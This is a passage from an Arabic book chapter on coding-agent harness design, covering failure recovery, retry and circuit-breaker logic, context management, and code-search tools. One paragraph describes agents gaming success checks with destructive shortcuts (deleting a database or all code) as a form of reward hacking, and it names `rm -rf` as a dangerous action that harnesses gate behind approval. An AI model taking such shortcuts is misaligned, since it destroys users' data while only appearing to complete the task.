|---------|--------------------------------------------|------------------------------------------|
| **هدف واضح** | **الربع المثالي**: إصلاح الأخطاء عبر حالات الاختبار المارة | **إنتاجية مقيدة**: إعادة بناء الشفرة تتطلب مراجعة بشرية |
| **هدف غامض** | **الانحراف الفعال**: تحسين أسلوب الشفرة عبر Linter دون هدف وظيفي | **صعوبة البدء**: "تحسين الواجهة لتستجيب بشكل أفضل" |

**ممارسة الصناعة.**

تؤكد ثلاث دراسات حالة لممارسة منظومة التشغيل المبادئ المذكورة أعلاه:

- **حالة ترحيل التعليمات البرمجية واسعة النطاق** (من ممارسة ترحيل التعليمات البرمجية واسعة النطاق المشتركة بشكل عام لشركة تقنية كبيرة): لم يكن المفتاح هو قوة النموذج، ولكن الأداة التي تقوم بثلاثة أشياء صحيحة - يجب أن تكون المعرفة موجودة داخل قاعدة التعليمات البرمجية نفسها (ما لا يستطيع الوكيل رؤيته غير موجود)، ويتم تشفير القيود في linters وCI بدلاً من كتابتها في الوثائق، ويتم التحقق والتصحيح بشكل آلي بالكامل من البداية إلى النهاية.
- **LangChain**: تم تحسين أداء المهام المعيارية بشكل ملحوظ فقط من خلال تحسين الأداة (موجّهات النظام، والبرمجيات الوسيطة للأداة، وحلقات التحقق الذاتي). تجدر الإشارة بشكل خاص إلى منهجية "استخدام وكيل لتحليل مسارات الفشل لتحسين منظومة التشغيل"، وتحويل هندسة منظومة التشغيل من تعتمد على الخبرة إلى تعتمد على البيانات.
- **Anthropic**: يقسم المهام الطويلة إلى دورين - وكيل التهيئة المسؤول عن تقسيم المهام الكبيرة إلى قائمة مهام، ووكيل التنفيذ المسؤول عن التقدم خطوة بخطوة، مع ترك النتائج المتوسطة (مثل ملفات التعليمات البرمجية المكتملة وقوائم المهام المحدثة) للجولة التالية لمواصلة الاستخدام. يحل تقسيم العمل هذا مشكلة الوكلاء الذين يعملون لفترة طويلة "يحاولون القيام بالكثير في وقت واحد" أو "يطالبون بالإكمال قبل الأوان".

**من وكيل البرمجة إلى المبادئ العامة لتصميم الأدوات.**

تقدم ممارسات منظومة التشغيل في وكلاء البرمجة مبادئ تصميم يمكن نقلها إلى جميع أنظمة الوكلاء:

1. **القيود المفروضة على الإرشادات**: يجب ترميز القواعد التي يمكن فرضها باستخدام التعليمات البرمجية هناك، وليس مجرد اقتراحها في الوثائق. إن قيمة قواعد linter، وقيود النوع، وعمليات فحص CI تتجاوز بكثير إرشادات "الرجاء اتباع..." في موجّهات النظام - فالأول يعني "لا يمكن القيام به"، أما الأخير فهو مجرد "ينصح به".
2. **التحقق التلقائي**: تعتبر المراجعة اليدوية بمثابة عنق الزجاجة الذي لا يمكن تجاوزه. يؤدي الاستثمار في مجموعات الاختبار، وفحوصات جودة التعليمات البرمجية، ومراقبة السلوك إلى تحقيق عوائد أعلى بكثير من إضافة المزيد من الجهد البشري.
3. **يجب أن تكون التعليقات سريعة ومنظمة قدر الإمكان**: كلما كانت رسالة الخطأ أكثر تفصيلاً وكانت أقرب إلى لحظة الخطأ، كلما تمكن الوكيل من تصحيح نفسه بكفاءة أكبر. تجسد تقنيات شريط حالة الوكيل من الفصل 2 (رسائل الخطأ التفصيلية، وعدادات استدعاء الأداة) هذا المبدأ.
4. **يجب أن يكون التراجع موثوقًا به**: لا يمكن للوكلاء إجراء التجارب بجرأة إلا عند العمل ضمن شبكة أمان. تضمن فروع Git وبيئات وضع الحماية وآليات اللقطة إمكانية عكس أي خطأ.

**هدف أعمق من القيود: منع أخطاء العملية.** يحدد خط الأساس للقبول ما إذا كانت النتيجة صحيحة أم لا؛ حدود التنفيذ تحكم **العملية** — فحتى النتيجة الصحيحة لا تبرر اتباع أسلوب خاطئ. يؤدي حذف قاعدة البيانات وإعادة بنائها "لإصلاح" خطأ قاعدة البيانات إلى إصلاحها، ولكن البيانات تختفي؛ يؤدي حذف كل التعليمات البرمجية لإصلاح خطأ في الترجمة إلى نجاح عملية الترجمة، ولكن التنفيذ قد انتهى. مثل هذه الاختصارات المدمرة موجودة دائمًا: حتى عندما تتم كتابة القيود في مقاييس التقييم النهائية، غالبًا ما يجد الوكلاء طرقًا للالتفاف حولها - وهذا هو الشكل اليومي لاختراق المكافآت (الفصل 8) في مهام الوكيل. ولذلك، فإن منظومة التشغيل في بيئة الإنتاج تضع فحوصات وموافقات مخصصة على الإجراءات الخطيرة مثل `rm -rf`، أو حذف بيانات الإنتاج، أو الكتابة فوق ملف غير مقروء (التحليل الدلالي في قسم الأمان بهذا الفصل، ومراجعة Sidecar في الفصل 4)، وتقييد **الإجراءات**، وليس النتائج فقط. يجيب RLVP في الفصل 8 (التعلم المعزز بعقوبة مؤكدة - "مكافأة النتيجة، معاقبة المسار") على نفس السؤال من جانب التدريب: بما يتجاوز مكافأة النتيجة النهائية، فإنه يعاقب الانتهاكات التي يمكن التحقق منها على طول المسار، ويستوعب "عدم وجود وسائل مدمرة" مثل الفطرة السليمة الهندسية للنموذج. بالنسبة للنموذج الحالي، تعتبر حواجز الحماية الخاصة بمنظومة التشغيل بمثابة قيود خارجية؛ بالنسبة لنموذج قابل للتدريب، فإن عقوبات العملية تستوعب نفس القيود. الهدف هو نفسه.

**تنسيق الأداة: التحكم في حدود الخطأ**. يدعم وكلاء البرمجة الناضجون استدعاءات الأدوات المتوازية. المشكلة الفريدة من منظور Harness هي **كيفية انتشار الأخطاء**: عندما تفشل إحدى الأدوات، ما هي الاستدعاءات التي يجب إحباطها وأيها يجب أن يستمر؟ المبدأ هو أن الأخطاء تنتشر فقط ضمن نفس مجموعة الاستدعاءات المتوازية، وليس حتى العملية الأصلية. عند قراءة ثلاثة ملفات بالتوازي، على سبيل المثال، يجب أن يتسبب الملف المفقود في فشل هذا الاستدعاء فقط؛ ولا ينبغي أن يلغي الاثنين الآخرين ولا يجهض المهمة بأكملها. يتجنب التحكم الدقيق في حدود الخطأ هذا النمط الهش المتمثل في "فشل أمر واحد يؤدي إلى إجهاض المهمة بأكملها". تم تفصيل الآليات المحددة للمكالمات المتوازية، وتحليل الدفق، وعمليات الإجهاض المتتالية في قسم "نصائح التنفيذ" في هذا الفصل.

### استعادة الفشل والخطأ

قدم القسم السابق مبادئ ومكونات هندسة منظومة التشغيل؛ يتعمق هذا القسم في الجزء الأكثر تميزًا بين النضج الهندسي - **الفشل واسترداد الأخطاء**. أظهرت تجربة الاستئصال في الفصل الأول مدى خطورة المشكلة: فقدان جزء واحد من التغذية الراجعة على نتائج الأداة يكفي لاحتجاز الوكيل في حلقة لا نهائية - وتشهد بيئات الإنتاج الحقيقية حالات فشل أكثر تنوعًا بكثير من أي تجربة. يجيب هذا القسم بشكل منهجي على ثلاثة أسئلة: ما هي حالات الفشل التي يواجهها نظام الإنتاج؟ وكيف يتم اكتشافها والتعافي منها؟ ومتى يجب إنهاء النظام؟[^ch5-3]

[^ch5-3]: يعتمد تصنيف الفشل وتحليل الآلية في هذا القسم على البحث في الكود المصدري لتطبيقات وكيل فئة الإنتاج مثل كود Claude. تتطور تطبيقات محددة بسرعة عبر الإصدارات؛ هذا القسم يقطر فقط المبادئ الهندسية المستقرة.

**تصنيف حالات الفشل: أربع طبقات.** الخطوة الأولى نحو الاستجابة المنهجية هي التصنيف. تنقسم حالات الفشل إلى أربع طبقات حسب مكان حدوثها:

- **طبقة API**: تحديد المعدل (HTTP 429)، التحميل الزائد للخدمة، مهلة الطلب، انقطاع الاتصال، والإخراج المقطوع عند حد الرمز المميز. لا علاقة لهذه الإخفاقات بالمهمة نفسها، فهي تمثل ضجيجًا للبنية التحتية.
- **طبقة الأدوات**: الاستدعاءات الوهمية (استدعاء أداة غير موجودة)، والوسائط المشوهة (انتهاك عقد إدخال الأداة)، واستثناءات التنفيذ، والنوع الأكثر خطورة - أداة تعيد نفس الخطأ بشكل متكرر بينما يعيد النموذج محاولته دون تغيير.
- **طبقة السياق**: تجاوز سعة نافذة السياق، وفشل الضغط، وبنية المسار التالفة (مثل استدعاء أداة يفتقد رسالة النتيجة المقترنة بها).
- **طبقة التحكم في التدفق**: حلقات لا نهائية (تكرار نفس العملية دون أي تقدم) ودوامة الموت (منطق الاسترداد الناتج عن خطأ يستدعي LLM، ثم يفشل مرة أخرى، ويتكرر).

**الاكتشاف: التصنيف أولاً، ثم العد.** عند حدوث فشل، فإن السؤال الأول ليس "هل يجب علينا إعادة المحاولة؟" لكن "هل ستساعد إعادة المحاولة؟" الأخطاء القابلة لإعادة المحاولة (تحديد المعدل، التحميل الزائد، ارتعاش الشبكة) تستحق إعادة المحاولة؛ ستؤدي الأخطاء غير القابلة لإعادة المحاولة (الوسائط غير الصالحة، والأذونات غير الكافية، والأداة غير الموجودة) إلى نفس النتيجة بغض النظر عن عدد مرات إعادة المحاولة كما هي - يجب تغيير المدخلات أو الإستراتيجية. تحافظ أداة الإنتاج على التخطيط من أنواع الأخطاء إلى إستراتيجيات الاسترداد، بدلاً من "إعادة المحاولة عند حدوث خطأ" شامل.

بعيدًا عن الأخطاء الفردية، اكتشف **الأنماط**. أولاً، بصمات المكالمات المتكررة: قم بتجزئة زوج "اسم الأداة + الوسائط"؛ تكرار بصمة الإصبع نفسها هو إشارة واضحة إلى حلقة عدم التقدم - كان الوكيل في تجربة الاستئصال في الفصل الأول الذي يستدعي نفس الأداة مرارًا وتكرارًا هو هذا النمط بالضبط. ثانيًا، عدادات الفشل المتتالية: يحتفظ كل مسار استرداد بالعداد الخاص به، مما يوفر الأساس لقواطع الدائرة التي سيتم مناقشتها لاحقًا.

لا تظهر الفئة الثالثة من الإخفاقات في صورة خطأ صريح، ولذلك تتطلب مراقبة مستقلة **لحيوية الاتصال وسلامة المسار**. فأخطر ما قد يصيب اتصال البث ليس انقطاعه، إذ يولد ذلك خطأً فوريًا، بل توقفه الصامت: يبقى الاتصال مفتوحًا فيما ينقطع تدفق البيانات، كأنبوب موصول لا يخرج منه ماء. وغالبًا لا تغطي مهلة حزمة SDK إلا إنشاء الاتصال، لا استمرار النقل. لذلك يحتاج وكيل الإنتاج إلى مؤقّت خمول مستقل؛ فإذا لم يصل مخرج جديد خلال مدة محددة، عُدّ البث متوقفًا، وأُغلق الاتصال المعلّق، وبدأت إعادة المحاولة. والخلاصة أن **كل اتصال طويل الأمد يحتاج إلى إشارة حيوية، لا إلى مهلة اتصال فحسب**. أما مراقبة السلامة فتعنى ببنية المسار: إذا ظهر استدعاء أداة بلا رسالة نتيجة مقابلة، يصلح النظام الاقتران قبل إدخال المسار إلى السياق، بدل تحميل النموذج أو المستخدم أثر الخلل البنيوي. وثمة تفصيل مهم حين يعمل الوكيل في وضع الإنتاج ووضع جمع بيانات التدريب معًا: يجوز للإنتاج سد النتيجة المفقودة بعنصر نائب حفاظًا على استمرار الجلسة، بينما ينبغي لوضع التدريب رفض ذلك حتى لا تلوّث العناصر الاصطناعية البيانات. ويعكس هذا المبدأ — التسامح في الإنتاج والصرامة في التدريب — الصلة العميقة بين منظومة تشغيل الوكيل وتدريب النموذج.

**الاسترداد: التصعيد من خلال مراحل واضحة بشكل متزايد.** يتم تصنيف إجراءات الاسترداد حسب مدى ظهورها للمستخدم؛ إذا أدى المستوى الأدنى إلى حل المشكلة، فلا تقم بالتصعيد:

1. **إعادة المحاولة الصامتة**. الإجراء الافتراضي للأخطاء القابلة لإعادة المحاولة. هناك تفصيلان يحددان ما إذا كانت إعادة المحاولة ستنجح: أولاً، استخدم التراجع الأسي مع الارتعاش العشوائي لمنع أساطيل الوكلاء من إعادة المحاولة بشكل متزامن والتسبب في ازدحام ثانوي، مع احترام مدة الانتظار المقترحة للخادم؛ ثانيًا، التمييز بين مكالمات المقدمة والخلفية - تتم إعادة محاولة طلب الحلقة الرئيسية الفاشل، ولكن يتم إسقاط مكالمات الخلفية المساعدة (إنشاء العنوان، واقتراحات الإدخال) عند الفشل، خشية أن تؤدي عمليات إعادة المحاولة في الخلفية إلى إزاحة حصة الحلقة الرئيسية وإنشاء "إعادة محاولة التضخيم".
2. **تتحلل وتستمر**. عندما تفشل عمليات إعادة المحاولة، قم بتغيير الطلب نفسه وحاول مرة أخرى. خذ اقتطاع الإخراج (تم قطع التوليد بحد الطول): قم أولاً بإعادة الإرسال بصمت مع سقف إخراج مرتفع؛ إذا كان هذا لا يزال غير كاف، قم بإلحاق تعليمات وصفية في نهاية الرسالة بحيث يستمر النموذج في الإنشاء من نقطة التوقف. عندما يتم تحميل النموذج الأساسي بشكل زائد بشكل مستمر، ارجع إلى نموذج آخر، وقم أولاً بإزالة كتل التنسيق الخاصة من سجل النموذج السابق حتى يتمكن النموذج الجديد من تحليله؛ عندما يكون الوضع عالي التكلفة محدودًا بالمعدل، فارجع مؤقتًا إلى الوضع القياسي.
3. **السطح للمستخدم**. لا يظهر الخطأ إلا بعد استنفاد جميع الوسائل التلقائية، بالإضافة إلى إجراءات الاسترداد التي تمت محاولتها بالفعل.

تأخذ أخطاء طبقة الأدوات مسارًا مختلفًا: **لا تنهي الجلسة؛ قم بتحويل الخطأ إلى إدخال النموذج**. تتلقى مكالمة مهلوسة نتيجة خطأ منظمة "لا توجد مثل هذه الأداة"؛ يتلقى فشل التحقق من الصحة خطأً موضحًا بتلميحات حول عقد الإدخال؛ يتم إصلاح الوسائط المشوهة (سلسلة منبعثة حيث كان الكائن متوقعًا) برمجيًا قبل التنفيذ. تدخل هذه الأخطاء إلى السياق كنتائج أداة عادية، ويقوم النموذج بتصحيح نفسه في المنعطف التالي - وهو تطبيق للمبدأ السابق القائل بأنه "كلما كانت التغذية الراجعة أكثر تنظيمًا، كان ذلك أفضل": كلما كان الخطأ الذي تم تغذيته أكثر تحديدًا، زاد معدل التصحيح الذاتي للنموذج.

المبدأ الأساسي لهذا القسم هو: **وحدة معالجة الأخطاء ليست طلبًا واحدًا، بل حلقة الاسترداد بأكملها**. وإلى أن يتم التأكد من استحالة الاسترداد، لا ينبغي كشف الأخطاء الوسيطة للمستهلكين - سواء كان المستخدم أو الأنظمة النهائية مشتركة في الأحداث: حجب رسائل الخطأ أثناء الاسترداد؛ وإذا نجح التعافي، فلن يلاحظ المستهلكون ذلك أبدًا؛ فقط عندما يفشل كل شيء يتم تحرير الأخطاء المحتجزة. هذا هو الإدراك الهندسي لمبدأ التصحيح في الفصل الأول - "لا تكشف عن الحالات المتوسطة حتى يتم التأكد من استحالة التعافي."

**الإنهاء: يحتاج كل مسار استرداد إلى حد أقصى.** يمكن أن تفشل آليات الاسترداد نفسها، لذلك يجب أن يكون لكل مسار استرداد حد أقصى واضح لإعادة المحاولة: يستسلم ضغط السياق بعد عدة حالات فشل متتالية؛ يعود مُصنف الأذونات إلى سؤال الإنسان بعد الإخفاقات المتكررة؛ تتم محاولة استمرار الإخراج على الأكثر لعدد محدد من المرات. من أين تأتي العتبات؟ بيانات الإنتاج، وليس التخمين. خذ قاطع دائرة الضغط الخاص بـ Claude Code: تأتي عتبة "3 حالات فشل متتالية" من إحصائيات الجلسة الحقيقية - فشلت جلسة واحدة مرة واحدة أكثر من ثلاثة آلاف مرة متتالية في مسار الاسترداد ذاته، وأهدرت عمليات إعادة المحاولة غير المجدية وحدها حوالي 250.000 مكالمة API يوميًا في جميع أنحاء العالم؛ شهدت أكثر من ألف جلسة سلسلة من أكثر من 50 فشلًا متتاليًا. النقطة الثالثة هي نقطة الانعطاف التجريبية بين "الغالبية العظمى من حالات الفشل تتعافى قبل ذلك" و"مزيد من عمليات إعادة المحاولة ميؤوس منها بشكل أساسي".

إن الأمر الأكثر خطورة من قاطع النقطة الواحدة هو **دوامة الموت**: المنطق الذي يتم تشغيله على مسار الخطأ نفسه يستدعي LLM، ويفشل مرة أخرى، ويتكرر. سلسلة حقيقية واحدة: يتوقف الوكيل عند حدوث خطأ في تجاوز سعة السياق، والذي يطلق خطاف الإيقاف (منطق التنظيف الذي يعمل تلقائيًا عندما ينتهي الوكيل) الذي "ينفذ التعليمات البرمجية عند الخروج"، ويستدعي الخطاف LLM لكتابة رسالة التزام، ويتجاوز السياق مرة أخرى، ويتم تشغيل الخطاف مرة أخرى. الدفاع يأتي على قسمين: قم بتعطيل جميع التأثيرات الجانبية لاستدعاء النموذج على مسار الخطأ (من الأفضل أن تفقد ميزة مساعدة مرة واحدة، مثل الاستخراج التلقائي للذاكرة)، واستخدم عداد عمق العودية لاكتشاف أي سلسلة متبقية وكسرها. أخيرًا، قبل كل شيء، توجد آليات تلقائية لشروط الإنهاء والتصعيد العالمية: الحد الأقصى لعدد الدورات، والحد الأقصى لميزانية الجلسة، والتصعيد إلى التدخل البشري عندما تتجاوز حالات الفشل المتتالية الحد الأدنى.

ولا تعالج هذه الآليات ضعف قدرة النموذج، بل متانة النظام في الظروف الحدية. ستزداد النماذج قوة، لكن الشبكات ستظل تنقطع، والعمليات ستتعطل، والمستخدمون سيتصرفون بطرق غير متوقعة. والأهم أن **موثوقية الوكيل لا تُقاس بعدم وقوعه في الخطأ، بل بوجود مسار مناسب لاكتشاف كل فئة من الأخطاء والتعافي منها وإنهائها**.

### أساليب تنفيذ وكلاء البرمجة

سير العمل الموصوف أعلاه هو المثالي. يتطلب تنفيذه عمليًا مجموعة من تقنيات التنفيذ الملموسة، وهي طرق لزيادة سرعة الاستجابة وتقليل استهلاك السياق دون المساس بجودة الفكر. إنها تقنيات الوكيل العامة للفصلين 2 و 4، المطبقة على مجال البرمجة.

**استدعاءات الأداة الموازية وتنفيذ البث والإجهاض المتتالي.**

غالبًا ما تعمل تطبيقات الوكيل التقليدي بشكل تسلسلي: قم بإنشاء استدعاء أداة، وتنفيذه، والحصول على النتيجة، ثم تحديد الخطوة التالية. هذا الانتظار الصارم يهدر قدرًا كبيرًا من الوقت.

يجب على وكلاء البرمجة الحديثين الاستفادة بشكل كامل من استجابات التدفق: قدم الفصل الثاني هذه الآلية عند مناقشة ترتيب مخرجات النموذج - بمجرد إنشاء معلمات استدعاء الأداة الأول بالكامل واجتياز التحقق من الصحة، يمكن أن يبدأ التنفيذ على الفور، دون انتظار النموذج لإنشاء استدعاءات الأداة اللاحقة. على سبيل المثال، إذا كان النموذج يحتاج إلى إخراج ثلاثة استدعاءات للأدوات في استدلال واحد - كود البحث، والتحقق من ملفات التكوين، وقراءة السجلات - فيمكن أن يبدأ الاستدعاء الأول في التنفيذ بمجرد اكتمال معلماته والتحقق من صحتها، مع التداخل مع إنشاء الاستدعاءين الآخرين. يمكن أيضًا تنفيذ المكالمات المستقلة بالتوازي بدلاً من وضعها في قائمة الانتظار. يؤدي هذا التنفيذ المتداخل إلى تقليل زمن الوصول الشامل بشكل كبير، مما يجعل استجابات الوكيل أكثر مرونة.

الجانب الآخر من التنفيذ المتوازي هو معالجة الأخطاء. يجب أن يعلن كل تعريف أداة ما إذا كان يدعم التنفيذ المتزامن (الافتراضي هو لا، آمن من الفشل). عند فشل مكالمة، تقوم آلية الإجهاض المتتالية بإنهاء المكالمات الأخرى التي بدأت في نفس الدفعة والتي تعتمد على نتيجتها، ولكنها لا تؤثر على المكالمات المستقلة أو العملية الأصلية - وهذا تطبيق ملموس لمبدأ "التحكم في حدود الخطأ" من قسم هندسة منظومة التشغيل.

**إدارة السياق الدقيقة.**

التحدي الأساسي الذي يواجه وكلاء البرمجة هو أن قواعد التعليمات البرمجية عادة ما تكون كبيرة، ولكن نافذة سياق النموذج محدودة. حتى لو ادعت النماذج المتقدمة أنها تدعم ملايين الرموز، فإن حشو قاعدة التعليمات البرمجية بأكملها في السياق ليس اقتصاديًا ولا ضروريًا. تحتاج إدارة السياق الذكية إلى العمل على مستويات متعددة.

لا يحتاج الوكيل دائمًا إلى قراءة الملف كاملًا. ففي الملفات الكبيرة ينبغي أن تتيح الأداة طلب نطاق محدد، كالأسطر من 100 إلى 150، بدل تحميل آلاف الأسطر. وينبغي كذلك أن تعيد المحتوى مع أرقام أسطره الفعلية. لهذه التفاصيل البسيطة أثر كبير؛ إذ يستطيع النموذج الإشارة بدقة إلى «السطر 42 من `src/main.py`»، فيقل الغموض وتصبح التعديلات اللاحقة أوثق.

على مستوى تنفيذ الأمر، يتطلب التعامل مع مخرجات الوحدة الطرفية أيضًا العناية. يمكن أن ينتج عن التجميع أو الاختبار آلاف الأسطر من المخرجات. إذا تم إدخال كل ذلك في السياق، فسيتم استنفاد الميزانية بسرعة. يتم تطبيق آلية اقتطاع المخرجات الطويلة واستمرارها المقدمة في الفصل 4 على نطاق واسع هنا: احتفظ بالأسطر القليلة الأولى من المخرجات (التي تحتوي عادةً على سياق الخطأ) والأسطر القليلة الأخيرة (عادةً ما تحتوي على ملخصات الأخطاء)، واستبدل الوسط بعنصر نائب من سطر واحد، ولاحظ أنه تم حفظ المخرجات الكاملة في ملف مؤقت للعرض عند الطلب.

**الحقن الديناميكي للمعلومات البيئية.**

يعد هذا مظهرًا مركزًا لتقنية شريط حالة الوكيل من الفصل الثاني في وكلاء البرمجة. على عكس الوكلاء العامين، يعتمد وكلاء البرمجة بشكل كبير على حالة بيئة التنفيذ. قبل كل استدلال، يجب إدخال معلومات البيئة الرئيسية التالية في نهاية السياق في شكل شريط حالة الوكيل:

- **دليل العمل الحالي**: يضمن صحة مراجع المسار
- **فرع Git**: يعرف ما إذا كان يعمل على الفرع الرئيسي أم على فرع مميز
- **سجل الالتزام الأخير**: يفهم تطور المشروع
- **نظرة عامة على التغييرات المرحلية وغير المرحلية**: معرفة التعديلات التي تم إجراؤها

لا ينبغي ترميز هذه المعلومات ضمن موجّهات النظام الثابتة - والتي قد تؤدي إلى تدمير كفاءة KV Cache - ولكن يجب أن يتم إنشاؤها وإدخالها ديناميكيًا كشريط حالة الوكيل الملحق. بهذه الطريقة، يكتسب الوكيل "الوعي البيئي"، حيث يعتمد كل قرار على فهم دقيق للحالة الحالية، بدلاً من الافتراضات التي عفا عليها الزمن.

**استمرار الحالة في بيئة تنفيذ الأوامر.**

عند التفاعل مع التعليمات البرمجية، تعتمد العديد من العمليات على حالة البيئة: تغيير الدلائل، وتنشيط البيئات الافتراضية، وتعيين متغيرات البيئة، وبدء تشغيل خدمات الخلفية. إذا تم تنفيذ كل أمر في غلاف جديد، فسيتم فقدان كل هذه الحالة - استخدم الوكيل للتو `cd` للانتقال إلى دليل المشروع، ولكن الأمر التالي يبدأ مرة أخرى في الدليل الافتراضي للصدفة، مما يجبره على تكرار نفس الإعداد. والأسوأ من ذلك، أن تأثيرات بعض العمليات (مثل تنشيط بيئة افتراضية Python) صالحة فقط خلال جلسة الصدفة الحالية ولا يمكن تمريرها عبر الجلسات.

لذلك، يجب الحفاظ على جلسة طرفية مستمرة، يتم إنشاؤها عندما يبدأ الوكيل وتظل نشطة طوال التفاعل بأكمله. يتم تنفيذ كل أمر في هذه المحطة المشتركة، مع الحفاظ على دليل العمل ومتغيرات البيئة وحالة الجلسة. يتوافق هذا التصميم بشكل أكبر مع عادات عمل المطورين البشريين، فنحن عادةً ما نعمل في نافذة طرفية طويلة الأمد. بالطبع، يجب أن يحتفظ الوكيل أيضًا بالقدرة على بدء تشغيل محطات معزولة لدعم المهام المتوازية، ولكن يجب أن تكون الجلسة المستمرة هي الوضع الافتراضي.

**آلية تقديم الملاحظات الفورية حول بناء الجملة.**

يوضح هذا مرة أخرى قيمة تقنية شريط حالة الوكيل. بعد قيام الوكيل بتعديل التعليمات البرمجية، يجب ألا ينتظر المستخدم ليطلب الاختبار بشكل صريح قبل التحقق من بناء الجملة. تتمثل الطريقة الأكثر فعالية في أن تقوم طبقة الأداة بتشغيل مدقق linter أو بناء الجملة المقابل تلقائيًا بمجرد اكتمال عملية كتابة الملف وتقديم النتائج كجزء من القيمة المرتجعة للأداة إلى الوكيل. إذا تم اكتشاف خطأ في بناء الجملة، يرى الوكيل معلومات الخطأ التفصيلية على الفور في جولة الاستدلال التالية - تمامًا كما يقوم IDE بوضع علامة على قوس غير متطابق على الفور. تعمل آلية التغذية الراجعة الفورية هذه على تقليل تكلفة إصلاح الأخطاء بشكل كبير، لأن الوكيل يمكنه تصحيح الخطأ في لحظة تقديمه، دون الانتظار حتى إجراء الاختبارات لاكتشاف المشكلة.

تشكل تقنيات التنفيذ الخمسة هذه - التوازي والتدفق، وإدارة السياق، والوعي البيئي، واستمرارية الحالة، والتغذية الراجعة الفورية - معًا الأساس الفني لوكيل البرمجة الفعال. إنها ليست نقاط تحسين معزولة، ولكنها قرارات تصميمية يعزز بعضها بعضًا، وتشير جميعها نحو هدف واحد: تمكين الوكيل من العمل بسلاسة مثل المطور ذي الخبرة.

### أدوات البحث لدى وكلاء البرمجة

يعد تحديد موقع التعليمات البرمجية ذات الصلة في قاعدة تعليمات برمجية كبيرة بمثابة نقطة البداية لعمل وكيل البرمجة. ويقارن الشكل 5-3 بين العديد من أدوات البحث التكميلية، موضحًا كيف ينبغي لوكيل البرمجة الناضج أن يختار طرق الاسترجاع بناءً على طبيعة المهمة.


**مطابقة محتوى Regex** (grep/ripgrep): طريقة البحث الأكثر تقليدية، حيث تقوم بمسح محتويات الملف سطرًا تلو الآخر بحثًا عن تطابقات الأنماط. عندما يعرف الوكيل النص الدقيق المطلوب العثور عليه (أسماء الوظائف، أسماء المتغيرات، رسائل الخطأ)، يمكنه تحديد موقع كل حدث بسرعة ودقة. تلتقط القوة التعبيرية للتعبيرات العادية (بناء جملة لوصف أنماط النص برموز خاصة، على سبيل المثال، `def handle.*` يطابق جميع تعريفات الوظائف بدءًا من `handle`) أنماطًا معقدة - ليس فقط النص الحرفي، ولكن التعليمات البرمجية التي تتوافق مع بنية معينة. في الممارسة العملية، يجب أيضًا دعم تصفية أنواع الملفات (البحث في ملفات Python فقط) وتصفية نمط المسار (باستثناء أدلة الاختبار) لتقليل الضوضاء. القيد الأساسي: لا يجد سوى المطابقات النصية ولا يفهم أي دلالات - فالبحث عن "مصادقة المستخدم" لن يظهر أبدًا وظيفة تتعامل مع منطق تسجيل الدخول ولكن لا تحتوي على كلمة "مصادقة".

**مطابقة أنماط المسارات والأسماء (Glob)**: تتجاهل محتوى الملف، وتبحث فقط في بنية مسار نظام الملفات عن الملفات المطابقة للنمط. على سبيل المثال، يبحث `**/*.test.ts` بشكل متكرر عن جميع ملفات اختبار TypeScript، ويبحث `src/components/**/Button.tsx` عن Button.tsx بأي عمق ضمن المكونات. إنه أسرع بكثير من البحث عن المحتوى (لا حاجة لفتح الملفات وقراءتها) وهو الخطوة الأولى للوكيل في استكشاف بنية المشروع — إنشاء الإطار التنظيمي للمشروع بسرعة عن طريق فحص نظام الملفات بأكمله.

**البحث عن الكود الدلالي**: على عكس أول طريقتين للمطابقة التامة، فهو يحاول فهم "معنى" الاستعلام والكود. يحتاج إلى حل مشكلتين رئيسيتين:

- **التقطيع المراعي للبنية**: تحتوي التعليمات البرمجية على بنية نحوية صارمة ويجب تقسيمها بواسطة وحدات دلالية كاملة مثل الوظائف والفئات والأساليب، بدلاً من التقطيع الأعمى بواسطة عدد ثابت من الأحرف.
- **الاسترجاع المختلط** (الفصل 3 يعرض تفاصيل مجموعة التكنولوجيا هذه): تتفوق عمليات تضمين المتجهات (التضمينات الكثيفة) في العثور على تعليمات برمجية مشابهة لغويًا بكلمات مختلفة (على سبيل المثال، البحث عن "التحقق من هوية المستخدم" يمكن العثور على وظيفة تسمى `check_credentials`)، بينما تتفوق مطابقة الكلمات الرئيسية في مطابقة أسماء الوظائف والمتغيرات بدقة. يعمل الاثنان بالتوازي، ويتم دمج النتائج وفرزها بواسطة أداة إعادة الترتيب (جهاز تشفير متقاطع يقوم بترتيب دقيق للملاءمة على نتائج المرشحين)، مما يوفر تغطية تكميلية.

يعد البحث الدلالي مناسبًا بشكل خاص للمهام الاستكشافية، مثل العثور على التعليمات البرمجية المتعلقة بـ "التفاعل مع قاعدة البيانات" أو "التعامل مع التحقق من صحة إدخال المستخدم" في قاعدة تعليمات برمجية غير مألوفة.

ومع ذلك، هناك جدل واضح في الصناعة حول ما إذا كان الأمر يستحق بناء مؤشرات مضمنة للبحث الدلالي. الوكلاء المعتمدون على المحطة مثل Claude Code **لا ينشئون فهارس تضمين**، ويعتمدون كليًا على الوكيل grep + glob للاسترجاع الفوري - وهذا يتجنب الحفاظ على المؤشرات التي تصبح قديمة مع تطور الكود، ويزيل البنية الأساسية للفهرسة بالكامل. الأدوات المستندة إلى IDE مثل Cursor اتخذت في البداية النهج المعاكس: إنهم على استعداد لدفع تكلفة إنشاء فهارس **للاستدعاء الدلالي عبر الملفات**، وذلك باستخدام فهارس التضمين للعثور بسرعة على المقتطفات ذات الصلة لغويًا ولكن ذات الكلمات المختلفة في قواعد التعليمات البرمجية الكبيرة. أما اليوم، فقد تحولت بيئات التطوير مثل Cursor أيضًا إلى الاسترجاع الفوري عبر grep + glob.

**تعريف مستوى الرمز والبحث عن المرجع**: تستخدم هذه الطريقة إمكانيات "الانتقال إلى التعريف" و"العثور على جميع المراجع" الشبيهة بما في IDE لتمييز تعريفات الرموز عن المراجع - على سبيل المثال، تحدد `authenticate` في السطر 42 كتعريف دالة والحدث في السطر 189 كمكالمة، بينما يحدد البحث عن النص يمكن فقط العثور على جميع الأسطر التي تحتوي على تلك السلسلة. ولا تعتمد وكلاء البرمجة السائدة حاليًا هذه الطريقة.

تشكل طرق البحث الأربع هذه مجموعة أدوات تكميلية، غالبًا ما تستخدم معًا في الممارسة العملية: استخدم أولاً البحث الدلالي للعثور على الوحدات ذات الصلة، ثم استخدم مطابقة التعبير العادي لتحديد موقع أسطر معينة من التعليمات البرمجية بدقة، وأخيرًا استخدم البحث عن الرمز لتتبع سلسلة الاتصال - وهي استراتيجية تقدمية "من الخشنة إلى الدقيقة، ومن الدلالات إلى بناء الجملة".

### أدوات تحرير الملفات لدى وكلاء البرمجة

